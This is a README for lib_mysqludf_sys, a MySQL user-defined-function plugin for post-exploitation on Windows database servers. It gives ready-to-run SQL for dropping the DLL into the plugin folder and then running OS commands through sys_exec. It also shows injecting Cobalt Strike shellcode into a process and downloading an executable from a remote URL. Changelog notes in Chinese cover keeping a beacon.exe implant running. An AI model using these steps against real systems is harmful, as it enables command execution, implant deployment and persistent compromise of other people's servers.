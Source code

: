 # lib_mysqludf_sys
lib_mysqludf_sys is a udf plugin of MySQL.

## Into Dumpfile

1.```python3 udf_Bin2Hex.py 1 Release\lib_mysqludf_sys_x64.dll "C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\lib_mysqludf_sys_x64.dll" > lib_mysqludf_sys_x64.sql```

2.exec .sql file

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/exec_sql.png) 

3.dumpfile lib_mysqludf_sys_x64.dll into lib/plugin

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/dumpfile.png) 

## Sys_exec

1.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("chcp 65001 & ipconfig");drop function sys_exec; ```

2.``` create function sys_exec returns string soname "lib_mysqludf_sys_x64.dll"; 
select sys_exec("whoami");drop function sys_exec; ```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/sys_exec.png) 


## Inject

1.Generate Stage/Stageless RAW file for Cobalt Strike


2.Dumpfile in MySQL machine


3.Inject shellcode

```create function inject returns string soname "lib_mysqludf_sys_x64.dll"; select inject(hex(load_file("C:\\raw.bin")),"AppVNice.exe");drop function inject;```

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/Inject_file.png) 

4.GIF 

![](https://cdn.jsdelivr.net/gh/yanghaoi/lib_mysqludf_sys/imgaes/injectshellcode.gif) 

## Download

```create function download returns string soname "lib_mysqludf_sys_x64.dll"; select download("http://xxxx/xxx.exe","C:\\11111.exe");drop function download;```



# Update-logs
## 20211228-aa7a95deeb58d3968c78c389d85c420745f22a46
BUG： 执行持久程序时由于文件句柄占用无法获得下次命令执行输出，如执行beacon.exe后，再执行whoami将没有回显输出。 


## 20220330-1754bafe546410fd47164a6cf5a33d859ffe6f7c-Experimental
Bug： 在使用命令执行 C:\\beacon.exe 后，无法停止mysql服务,强行终止进程后也无法启动服务，需要等 beacon.exe 退出后才能正常启停服务。  

fixes-BUG-20211228:使用unlocker库解除文件占用，但udf文件大小增加了；

1.使用CreateFile+CreateProcess获取子进程命令执行返回;  

2.中文乱码时可以切换数据库链接编码为GBK(chcp = 936).   

## 20220331--Experimental 
fixes-Bug-20220330: 增加参数来设置是否需要进行回显，如果是 C:\\beacon.exe 类不回显且会持续运行的程序就不通过CreateProcessA第五个参数设置继承了，这样就不会阻塞父进程。  

1. sys_exec("whoami","1")  回显 whoami 命令结果  
2. sys_exec("C:\\beacon.exe","x")  执行beacon类不需要回显


TIPS: 这个版本中的回显使用了匿名管道的方式，不能支持返回较大的命令(如 tasklist)执行，因为管道缓冲区是有限的，不准备解决该问题了==，通过最初的版本可以执行。  
